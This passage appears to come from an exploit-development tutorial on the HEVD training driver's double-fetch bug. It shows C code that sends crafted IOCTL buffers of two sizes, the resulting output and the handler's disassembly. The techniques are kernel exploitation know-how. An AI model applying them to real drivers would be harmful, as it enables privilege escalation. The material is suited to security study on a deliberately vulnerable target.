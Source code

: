 ```c
        return 1;
    }

    // allocate the user space buffer
    userBuffer = (char*)malloc(sizeof(char*) * 0xc00);
    memset((void*)userBuffer, 0x41, 0xc00);

    // struct to send to the driver
    UserData userData;
    userData.pBuffer = userBuffer;
    userData.sizeOfData = 0x800;

    // send our data
    BOOL status = DeviceIoControl(hDriver, 0x222037, (LPVOID)&userData, sizeof(userData), NULL, 0, NULL, NULL);

    // output the status
    printf("[+] status, when buffer size is 0x800: %d\n", status);

    // send our data, with larger buffer size
    userData.sizeOfData = 0x1500;
    status = DeviceIoControl(hDriver, 0x222037, (LPVOID)&userData, sizeof(userData), NULL, 0, NULL, NULL);

    // output the status
    printf("[+] status, when buffer size is 0x1500:%d\n", status);
}
```

Here we test the driver by creating a user space buffer of `0x1500` bytes. First we send the struct that points to our data with a `sizeOfData` field value of `0x800` and then we send the same struct but this time with a `sizeOfData` field value of `0x1500`:

```
HEVD Double Fetch Exploit
=========================
[+] status, when buffer size is 0x800: 1
[+] status, when buffer size is 0x1500:0
```

Looking at the assembly for the function, we see that `rcx` is moved in to `rdi` at offset `0x86838`, `rcx` should hold our struct at the start of the function.

```
000000000008681C mov     rax, rsp
000000000008681F mov     [rax+8], rbx
0000000000086823 mov     [rax+10h], rsi
0000000000086827 mov     [rax+18h], rdi
000000000008682B mov     [rax+20h], r14
000000000008682F push    r15
0000000000086831 sub     rsp, 820h
0000000000086838 mov     rdi, rcx
```
